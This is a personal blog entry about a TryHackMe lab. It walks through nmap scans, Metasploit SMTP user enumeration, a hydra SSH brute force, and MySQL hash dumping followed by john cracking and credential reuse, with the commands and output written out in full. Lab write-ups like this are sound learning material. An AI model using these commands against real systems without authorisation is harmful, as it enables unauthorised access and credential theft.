```yaml
---
title: Day 17
date: 2022-04-30
layout: post.njk
---
```


{{ page.date.toDateString }}

I'm getting an early jump on doing this today. Hopefully I can finish the whole module.

For task 2 for SMTP were going to use metasploit to enumerate the users available on the server using the [smtp_version](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smtp/smtp_version.md). Its my first time using metasploit in THM so it should be interesting.


First I ran my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 12:55 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>
>`Host is up (0.00058s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT   STATE SERVICE`
>
>`22/tcp open  ssh`
>
>`25/tcp open  smtp`
>
>`MAC Address: 02:1C:AF:59:C1:05 (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds`

The I ran the following commands in metasploit:

>`msfconsole`
>
>`smtp_version`
>
>`use auxiliary/scanner/smtp/smtp_version`
>
>`set RHOSTS <ip>`
>
>`run`
>
>`[+] <ip>     - <ip>:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a`
>
>`[*] <ip>      - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`
>
>`search smtp_enum`
>
>`use auxiliary/scanner/smtp/smtp_enum`
>
>`set RHOSTS <ip>`
>
>`set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
>
>`run`
>
>`[*] <ip>      - <ip>  Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)`
>
>`[+] <ip>       - <ip>  Users found: administrator`
>
>`[*] <ip>       - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`

So now we know we have a user name: `administrator` on the system and we are going to use [hydra](https://www.kali.org/tools/hydra/) to brute force it.

So I ran:

>'hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.111 ssh`

Then I ssh'ed in and got the flag!

Last one in this module: MySQL

MySQL is a Relational Database Management System (RDMS).

MySQL uses a client server model and can run on Linux and Windows.

First in the exercise it gives us the credentials `root:password`.

I run my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 13:30 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>`Host is up (0.0011s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT     STATE SERVICE`
>
>`22/tcp   open  ssh`
>
>`3306/tcp open  mysql`
>`MAC Address: 02:52:51:2B:7F:0F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds`

I verified that I could connect to to mysql using the client:
>`mysql -h <ip> -u root -p`

Then I moved into metasploit:
>`msfconsle`
>
>`search mysql_sql`
>
>`use auxiliary/admin/mysql/mysql_sql`

I then set all the options for RHOST, USERNAME, and PASSWORD. If you run without setting the SQL option it runs `select version()`. After I ran I got results back for that and I changed SQL to `show databases` and I got back the databases on the system.
>`msf5 auxiliary(admin/mysql/mysql_sql) > run`
>
>`[*] Running module against <ip>`
>
>`[*] <ip>:3306 - Sending statement: 'show databases'...`
>`[*] <ip>:3306 -  | information_schema |`
>`[*] <ip>:3306 -  | mysql |`
>`[*] <ip>:3306 -  | performance_schema |`
>`[*] <ip>:3306 -  | sys |`
>`[*] Auxiliary module execution completed`

I then used `auxiliary/scanner/mysql/mysql_schemadump`  to dump the various table schemas and `auxiliary/scanner/mysql/mysql_hashdump` to dump the password hashes.

In the list of password hashes there was: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18` so I put that in a text file called `hash.txt` and ran:
>`john hash.txt`

and got: `doggie           (carl)`

I then resued those credentials for ssh and was able to get the final flag.

This module was great just like the first one. I got exposure to a lot of tools and started to get the basics of metasploit down. I think metasploit is kind of looked down upon because it it kind of a crutch and does a lot of work for you without understanding what is going on. For now though Its helpful to use.

I think one of the big things I learned from these is that an attack path usually invovles some pivots. You may exploit some service that gives you some info that you use with another service, which leads you to more info and maybe the ability to finally gain a shell.

Happy Hacking.